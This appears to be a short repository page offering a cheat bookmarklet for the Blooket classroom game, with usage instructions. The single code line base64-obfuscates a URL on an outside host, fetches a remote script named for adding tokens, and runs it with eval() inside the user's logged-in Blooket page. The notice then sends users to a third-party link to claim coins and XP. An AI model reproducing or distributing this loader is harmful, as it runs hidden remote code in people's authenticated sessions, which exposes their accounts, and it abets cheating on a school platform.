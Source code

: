 # javascript-fetch-atob-aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3N
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))  ＮＯＴＩＣＥ ！！ For this hack you must use it when in the blooket market place, once you are there click the bookmark and it will send you to a Gbasil link, after you are there you will want to click the button that says "Get Daily Coins &amp; XP" After that has been compleated you will want to go back to blooket and refresh the page!
